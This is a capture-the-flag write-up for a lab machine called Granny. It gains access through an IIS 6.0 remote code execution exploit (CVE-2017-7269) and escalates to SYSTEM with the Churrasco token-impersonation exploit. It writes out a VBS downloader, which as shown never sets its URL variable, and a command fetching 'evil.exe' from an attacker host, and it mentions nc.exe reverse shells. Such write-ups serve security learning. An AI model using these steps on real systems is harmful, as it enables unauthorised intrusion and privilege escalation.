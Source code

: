 # Granny

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### IIS 6.0

This machine is running an outdated version of Microsoft IIS, which is vulnerable to a RCE exploit.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell" %}

Using this, we can gain a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Churrasco

We can enumerate the machine using `systeminfo`.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This is a really old version of Windows that is outdated and vulnerable to loads of exploits. One exploit is the Churrasco exploit, which works on Windows Server 2003 machines. However, because this machine was so old, it was hard to transfer files over to it using conventional Windows methods.&#x20;

So, we would need to create a `wget` binaruy using vbs.&#x20;

```powershell
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Afterwards, you can run this.
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Afterwards, we can download the binary from here:

{% embed url="https://github.com/Re4son/Churrasco/raw/master/churrasco.exe" %}

The exploit works through impersonating the SYSTEM user to execute commands by stealing the tokens from the worker processes run by the SYSTEM user.&#x20;

The exploit can be used to gain a reverse shell easily via `nc.exe`:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

A listener port would have a shell as SYSTEM after execution.
